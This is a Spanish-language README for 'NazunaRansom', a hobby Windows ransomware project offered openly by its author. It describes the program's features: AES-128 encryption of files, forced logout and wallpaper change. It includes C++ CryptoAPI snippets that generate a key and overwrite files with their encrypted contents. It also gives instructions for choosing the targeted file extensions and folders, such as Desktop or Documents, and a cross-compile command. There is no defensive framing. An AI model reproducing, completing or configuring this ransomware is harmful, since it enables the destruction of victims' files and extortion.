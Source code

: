 # NazunaRansom
Nazuna Ransomware v1, es un ransomware inspirado en mi waifu (Nazuna)

### Caracteristicas v1

- Usa cifrado AES-128 en modo CBC
- Cierra la sesion del usuario
- Cambia el fondo de pantalla
- Cifra los subdirectorios de un directorio dado

### Funciones de cifrado

**CryptAcquireContext**

```c++
if (!CryptAcquireContext(&nazuna.hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, 0)) {
  if (!CryptAcquireContext(&nazuna.hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, CRYPT_NEWKEYSET)) {
    return false;
  }
}
```
En el primer if trata de obtener el identificador del contenedor CSP, ```nazuna.hProv``` funciona como un puntero que almacena el identificador CSP, si no se puede obtener el identifcador se vuelva a llamar a ```CryptAcquireContext``` con ```CRYPT_NEWKEYSET``` para crear un contenedor de claves en CSP

**CryptGenKey**

```c++
CryptGenKey(nazuna.hProv, CALG_AES_128, CRYPT_EXPORTABLE, &nazuna.hkey);
```
Genera una key AES-128 de acuerdo al identificador del CSP y la key la almacena en ```nazuna.hkey```

**CryptEncrypt**

```c++
CryptEncrypt(nazuna.hkey, 0, true, 0, buf, &bytes_leer, BUF_LEN);
```
Cifra los datos de acuerdo al CSP, ```buf``` es un puntero al buffer datos que contiene los datos que se van a cifrar, ```bytes_leer``` es la cantidad de bytes que se van a cifrar, que son los bytes del archivo original, esta funcion tambien funcionara para que el buffer cifrado se sobreescriba por el original 

### Modificaciones

Dentro de la funcion ```recorrer_dir``` puedes especificar las extensiones de los archivos que quieres que se cifren:

```c++
if (extension == ".txt" || extension == ".cpp" || extension == ".pdf" || extension == ".docx" || extension == ".xlsx")
```

En la funcion ```main``` puedes especificar otro directorio que se va a cifrar

```c++
string ruta = filesystem::path(string(getenv("USERPROFILE")) + "\\Desktop").string();
```
Solo modifica ```Desktop``` por otra, ej: ```Documents```

### Compilado
Yo lo compile desde GNU/Linux con el comando

```bash
x86_64-w64-mingw32-g++ -o NazunaRansom NazunaRansom.cpp -lbcrypt -static -static-libgcc -static-libstdc++ -lurlmon
```

![](https://github.com/ic4rta/NazunaRansom/blob/main/Nazuna_Ransom_Fondo.jpg)
